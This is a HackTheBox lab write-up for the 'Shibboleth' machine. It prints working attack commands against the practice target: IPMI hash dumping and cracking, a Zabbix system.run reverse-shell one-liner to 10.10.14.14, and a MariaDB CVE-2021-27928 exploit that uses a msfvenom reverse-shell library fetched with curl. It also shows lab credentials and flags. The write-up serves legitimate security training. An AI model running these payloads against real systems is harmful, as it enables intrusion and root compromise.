








# Shibboleth - HackTheBox - Writeup
Linux, 30 Base Points, Medium



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding port ```80``` and by UDP scanning we found also the port ```623```.

***User***: Found vhosts of Zabbix system, Using ```scanner/ipmi/ipmi_dumphashes``` metasploit module we dumped the ```Administrator``` password of Zabbix, Using Zabbix we get a remote command execution and we get a reverse shell as ```zabbix```, Using the same password before we get the user ```ipmi-svc```.

***Root***: Exploiting the DB ```10.3.25-MariaDB``` using [CVE-2021-27928](https://www.exploit-db.com/exploits/49765) to get a reverse shell as ```root```.




## Shibboleth Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ nmap -sV -sC -oA nmap/Shibboleth 10.10.11.124
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-21 00:33 IST
Nmap scan report for 10.10.11.124
Host is up (0.11s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
```

By observing port 80 we get the following web page [http://shibboleth.htb/](http://shibboleth.htb/):


Nothing interesting on port ```80``` for now.

By running ```gobuster``` to find ```vhosts``` we get:
```console
┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ gobuster vhost -u http://shibboleth.htb -w subdomains-top1milion.txt  -t 100 > vhosts
...
Found: monitor.shibboleth.htb (Status: 200) [Size: 3686]    
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3686]      
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3686]     
```

And by scanning UDP ports we get another open port:
```console
┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ nmap -sU -Pn 10.10.11.124
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-03 01:02 IST
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.077s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

According this [article](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/) we can see that we can use [https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) module on ```metasploit``` to dump hashes as follow:
```console
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                Current Setting     Required  Description
   ----                ---------------     --------  -----------
   CRACK_COMMON        true                yes       Automatically crack common pa
                                                     sswords as they are obtained
   OUTPUT_HASHCAT_FIL  out.hashcat         no        Save captured password hashes
   E                                                  in hashcat format
   OUTPUT_JOHN_FILE    out.john            no        Save captured password hashes
                                                      in john the ripper format
   PASS_FILE           /usr/share/metaspl  yes       File containing common passwo
                       oit-framework/data            rds for offline cracking, one
                       /wordlists/ipmi_pa             per line
                       sswords.txt
   RHOSTS              10.10.11.124        yes       The target host(s), see https
                                                     ://github.com/rapid7/metasplo
                                                     it-framework/wiki/Using-Metas
                                                     ploit
   RPORT               623                 yes       The target port
   SESSION_MAX_ATTEMP  5                   yes       Maximum number of session ret
   TS                                                ries, required on certain BMC
                                                     s (HP iLO 4, etc)
   SESSION_RETRY_DELA  5                   yes       Delay between session retries
   Y                                                  in seconds
   THREADS             1                   yes       The number of concurrent thre
                                                     ads (max one per host)
   USER_FILE           /usr/share/metaspl  yes       File containing usernames, on
                       oit-framework/data            e per line
                       /wordlists/ipmi_us
                       ers.txt
```

Run it:
```console
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:4772eea38201000095db8d5b6207d11589e4a374294c9ba2c6005574d450e5905473a09ed60c48c8a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:3db8d91cc98b18ee3029f766c8f65ddb96889941
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

And we dump the Administrator hash, Let's crack it using ```john``` (where ```out.john``` is the output file from ```metasploit```):
```console
┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt out.john
Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (10.10.11.124 Administrator)
1g 0:00:00:01 DONE (2021-12-05 01:41) 0.9174g/s 6854Kp/s 6854Kc/s 6854KC/s inZtinX..iargmbytm
Use the "--show" option to display all of the cracked passwords reliably
Session completed

┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ john --show out.john
10.10.11.124 Administrator:ilovepumkinpie1

1 password hash cracked, 0 left
```

And we get the ```Administrator``` password ```ilovepumkinpie1```.

Let's try to use those credentials on [http://monitor.shibboleth.htb](http://monitor.shibboleth.htb):


And we get:


Which Zabbix is an enterprise IT network and application monitoring solution.

According the following [article](https://blog.zabbix.com/zabbix-remote-commands/7500/) and [video](https://www.youtube.com/watch?v=CMlpFuGBruE) we can get a remote code execution.

Let's click on ```Configuration -> Hosts```:



Click on ```shibboleth.htb``` hosts and then on ```Items```:



Next, click on ```Create Item``` (Top right), On ```Key``` Let's write ```system.run["rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4242 >/tmp/f &,nowait"]```:



Before we click on ```Test```, Let's create a ```nc``` listener:
```console
┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
```

And now let's click on ```Test``` button and then on ```Get value and test```:



And we get a revese shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from shibboleth.htb [10.10.11.124] 38576
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We can see on ```/home``` directory the following:
```console
$ ls /home   
ipmi-svc
```

We have the ```ipmi-svc``` (on port 623) password before, So let's use the password ```ilovepumkinpie1``` for this user:
```console
$ su ipmi-svc
Password: ilovepumkinpie1
whoami
ipmi-svc
pwd
/home/ipmi-svc
cat user.txt
35bfffcb78fcbac0ef8d950681a401c8
```

And we get the user flag ```35bfffcb78fcbac0ef8d950681a401c8```.

### Root

By running [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we found the zabbix config files which contains DB credentials:
```console
$ cat /etc/zabbix/zabbix_server.conf | grep DB
### Option: DBHost
# DBHost=localhost
### Option: DBName
# DBName=
DBName=zabbix
### Option: DBSchema
# DBSchema=
### Option: DBUser
# DBUser=
DBUser=zabbix
### Option: DBPassword
DBPassword=bloooarskybluh

```

The DB does not contain any credentials or something helpful, But the DB version is:
```console
$ mysql --version
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
```

We know about the [CVE-2021-27928](https://www.exploit-db.com/exploits/49765) so let's use this exploit.

First, Let's create the payload:
```console
┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=3333 -f elf-so -o CVE-2021-27928.so
```

Copy that to the target machine using ```curl```, Create a ```nc``` listener on port ```3333```:
```console
┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ nc -lvp 3333
listening on [any] 3333 ...

```

And run the following command to get a reverse shell:
```console
$ curl http://10.10.14.14:8000/CVE-2021-27928.so > CVE-2021-27928.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   476  100   476    0     0   1844      0 --:--:-- --:--:-- --:--:--  1844
$ pwd
/tmp
$ mysql -u zabbix -pbloooarskybluh -D zabbix -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
$ 

```

And we get a reverse shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Shibboleth]
└──╼ $ nc -lvp 3333
listening on [any] 3333 ...
connect to [10.10.16.11] from shibboleth.htb [10.10.11.124] 47526

id && hostname && whoami
uid=0(root) gid=0(root) groups=0(root)
shibboleth
root
cat /root/root.txt
ca38f07b1af7fd5a96445ad8cefe1b23

```

And we get the root flag ```ca38f07b1af7fd5a96445ad8cefe1b23```.
